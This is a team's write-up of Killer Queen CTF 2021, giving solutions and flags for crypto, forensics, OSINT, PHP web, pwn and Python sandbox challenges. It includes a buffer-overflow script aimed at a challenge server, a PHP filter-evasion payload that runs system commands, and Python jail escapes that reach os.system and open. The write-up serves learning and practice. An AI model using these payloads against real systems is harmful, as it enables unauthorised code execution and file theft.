


# Killer Queen CTF 2021

Killer Queen CTF primarily targets high school and college students featuring tons of challenges ranging from a beginner level of difficulty to ones that will test even the most seasoned competitors. It features all of our favorite categories including web, crypto, pwn, rev, and forensics with a variety of exciting topics such as quantum-safe cryptography that are not always covered by many other CTFs.

## Overview


| Title | Category | Points | Solves | Submitted | WriteUp | Flag |
|-------|----------|--------|--------|-----------|---------|------|
| [Road Safety Association](#road_safety_association) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [discord plz](#discord_plz) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Every breath you take](#every_breath_you_take) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Obligatory shark](#obligatory_shark) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Just not my type](#just_not_my_type) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [A kind of magic](#a_kind_of_magic) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Sneeki snek](#sneeki_snek) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Sneeki snek 2 oh no what did i do](#sneeki_snek_2_oh_no_what_did_i_do) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [cloudsourcing](#cloudsourcing) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [PHat Pottomed Girls](#phat_pottomed_girls) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Hammer to fall](#hammer_to_fall) | ??? | ??? | ??? | ✔️ | ✔️ | ❌ |
| [I want to break free](#i_want_to_break_free) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Dupper Analytics](#dupper_analytics) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [Tippy tappies](#tippy_tappies) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [I want to break free 2 electric boogaloo](#i_want_to_break_free_2_electric_boogaloo) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |
| [digitalocean](#digitalocean) | ??? | ??? | ??? | ✔️ | ✔️ | ✔️ |

---

## Road Safety Association

**Challenge**

[lotta_numbers.txt](./lotta_numbers.txt)

**WriteUp**

As the name suggests it's a rather classic challenge of RSA.

Inside the text file we have the ciphertext, a number P a number Q and a number E.

We can pass these numbers directly as arguments to the python script RsaCtfTool and it will find the plaintext for us.


Done! We have our flag "`kqctf{y0uv3_6r4du473d_fr0m_r54_3l3m3n74ry_5ch00l_ac8770bdcebc}`"

## discord plz

**Challenge**

**WriteUp**

Just join the Discord guild and look at the description of the rules channel.


Done! We have our flag "`kqctf{discord_>_irc_???}`"

## Every breath you take

**Challenge**

**WriteUp**

It is a OSINT challenge, we have to find the old pseudonym of sampinkerton.

The challenge description tells us about video games, so we can go to the biggest  video game hub a.k.a Steam and try to find sampinkton’s profile.


Done! We have our flag "`kqctf{wh0s_pl41ng_7r1k50n_m3?__e2q3}`"

## Obligatory shark

**Challenge**

[challenge.pcapng](./challenge.pcapng)

**WriteUp**

We have a WireShark capture of a transmission via the telnet protocol.

We apply the filter `len(telnet.data) > 0` we look at the data sent.

In the data there is a user who connects, so we have access to their username and password.


The password looks strangely like a hash, we can then send it in a MD5 hash decoder and voilà!

Done! We have our flag "`kqctf{dancingqueen}`"

## Just not my type

**Challenge**

[type.zip](./type.zip)

**WriteUp**

We have access to the source code of the page that the challenge offers us.

We can see that the php compares our entered password with the flag directly without checking the type.

`strcasecmp` returns 0 in php if one of the parameters is of the wrong type.

This can be abused by capturing the query and turning the variable into an array.


Done! We have our flag "`flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`"

## A kind of magic

**Challenge**

[akindofmagic](./akindofmagic)

**WriteUp**

We have access to a netcat connection and the program it runs on our connection.

By making a reverse of the program we can your that we can enter up to 64 characters while our array has only 44, which means that we can use this to overflow and override another variable and just below that we have a variable that must be equal to 0x539.

We can send 44 `a` as a pattern and the value we want in the variable:
```py
import socket
 
class Netcat:
    def __init__(self, ip, port):

        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)
 
    def write(self, data):
        self.socket.send(data)
    
    def close(self):
        self.socket.close()

test = b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x00\x39\x05\x00\x00\x00\x00\n"


nc = Netcat("143.198.184.186", 5000)

print(nc.read())
nc.write(test)
print(nc.read())
print(nc.read())
print(nc.read())
```


Done! We have our flag "`flag{i_hope_its_still_cool_to_use_1337_for_no_reason}`"

## Sneeki snek

**Challenge**

[sneekisnek.txt](./sneekisnek.txt)

**WriteUp**

The text file we have is the dissasembly of a python program. This is the first time we have seen this kind of challenge.

The thing we did was just try to rewrite the program and disassemble it as we went along to see if we were wrong or not.


Once we had a dissasembly that looked 99% like the original we execute it and ge the flag in reverse : `}(:_kens_ot_naem_eb_tnod{ftcqk`.

Done! We have our flag "`kqctf{dont_be_mean_to_snek_:(}`"

## Sneeki snek 2 oh no what did i do

**Challenge**

[sneekisnek2.txt](./sneekisnek2.txt)

**WriteUp**

It is exactly the same principle as the previous challenge so we made the same steps.


This time the flag was not in reverse, we get it directly!

Done! We have our flag "`kqctf{snek_waas_not_so_sneeki}`"

## cloudsourcing

**Challenge**

[cloudsourcing.zip](./cloudsourcing.zip)

**WriteUp**

In the archive we find a public key and a `mystery` text file containing a ciphertext.

We can use the Python script RsaCtfTool to find the plaintext for us like the challenge `Road Safety Association` but instead of giving P Q and E we give our public key.



At the end of the `STR` part we find our flag.

Done! We have our flag "`kqctf{y0uv3_6r4du473d_fr0m_r54_m1ddl3_5ch00l_abe7e79e244a968efc0}`"

## PHat Pottomed Girls

**Challenge**

[phatpottomedgirls.zip](./phatpottomedgirls.zip)

**WriteUp**

We have access to the source code of the PHP page that the site offers us.

We can see in this one that our text is filtered by deleting some specific substring and does it exactly 3 times.

Once this done, our input is put into a php file that we can access.

So we can have fun cutting our words, not once, not twice nor 3 times but 4 times to find our desired input that will be executed.

We want to have the contents of flag.php our desired final input is: 

```php
<?php

echo system("cat /flag.php");

?>
```
We will therefore send:
```php
<<<<????PHP

echo syssyssyssystemtemtemtem("cat /flaflaflaflagggg.php");

?>
```


Done! We have our flag "`flag{wait_but_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`"

## Hammer to fall

**Challenge**

[hammertofall.py](./hammertofall.py)

**WriteUp**

The principle of the script is simple we enter a number, it multiplies it by 7 and adds 1, and if it is equal to `-1` we win.

However we have no value that can make this result.

When playing a can with random numbers, we come across this warning: `RuntimeWarning: overflow encountered in long_scalars`.

So we’ll have to play with an `int` that overflow into a `long`.

We know that `-1` = `0xFFFFFFFFFFFFFFF`
So we have to find a number that is equal to `0xFFFFFFFFFFFFFFFF`

(0xFFFFFFFFFFFFFFFF - 1) / 7 = `2635249153387078802`

Therefore, we have to enter `2635249153387078802`!


Done! We have our flag

## I want to break free

**Challenge**

[jailpublic.zip](./jailpublic.zip)

**WriteUp**

We are in a python sandbox that does not allow spaces and some banned commands, if our command is safe it is then executed.

We don’t have access to the builtins keyword, so we have to find a way to do it without, we can use a global function for this: 
```py
().__class__.__base__.__subclasses__()
```

Now we have to find a class that contains our forbidden builtin functions.
In index 99 we have the class `warnings.catch_warnings` which in index 5 of its globals gives us access to it and index 8 a way to import modules:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["name_of_banned_function"]
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[8].modules["name_of_banned_module"]
```

So we can start by running a `ls` to find the file containing the flag:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[8].modules["o"+"s"].system("ls")
```

now that we have recovered the name of the file we must open it and display its contents:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["pri"+"nt"](list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["op"+"en"]("/cf7728be7980fd770ce03d9d937d6d4087310f02db7fcba6ebbad38bd641ba19.txt","r").read())
```

The content of the file contains our flag!

Done! We have our flag "`kqctf{0h_h0w_1_w4n7_70_br34k_fr33_e73nfk1788234896a174nc}`"

## Dupper Analytics

**Challenge**

**WriteUp**

It’s a sponsored message, we watch the video and we get the flag.


Done! We have our flag "`kqctf{dupper_analytics_is_fantastic}`"

## Tippy tappies

**Challenge**

[tippytappiesbutmobile.wav](./tippytappiesbutmobile.wav)

**WriteUp**

We have the recording of a person who type on his phone in Dual-tone multi-frequency his credit card code

According to this [Wikipedia page](https://en.wikipedia.org/wiki/Dual-tone_multi-frequency_signaling#Keypad) the keypad keys each have a specific frequency

We open the recording on Audacity and analyze each each pressed key.

Done! We have our flag "`kqctf{4716097646384761}`"

## I want to break free 2 electric boogaloo

**Challenge**

[jail2.zip](./jail2.zip)

**WriteUp**

We find ourselves in a new python sandbox but with even more banned functions

The only new command that is blocked that interests us are `read` and `sys`.

We can use getattr to access our banned commands.

We execute our `ls` to find the name of the flag file:
```py
getattr(list(().__class__.__bases__[0].__subclasses__()[{99}].__init__.__globals__.values())[8].modules["o"+"s"],"sy"+"stem")("ls")
```

And then we execute read on our file:
```py
list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["pri"+"nt"](getattr(list(().__class__.__bases__[0].__subclasses__()[99].__init__.__globals__.values())[5]["op"+"en"]("b49ddf352c9d2cdf7b9cf26dfeff15ad5336944e772b9d0190095be946fe8af9.txt","r"),"re"+"ad")())
```

Done! We have our flag "`kqctf{0h_h0w_1_w4n7_70_br34k_fr33_2398d89vj3nsoicifh3bdoq1b39049v}`"

## digitalocean

**Challenge**

**WriteUp**

It’s another sponsored message, we watch the video and we get the flag.



Done! We have our flag "`kqctf{digital_ocean_is_phenom3nal}`"
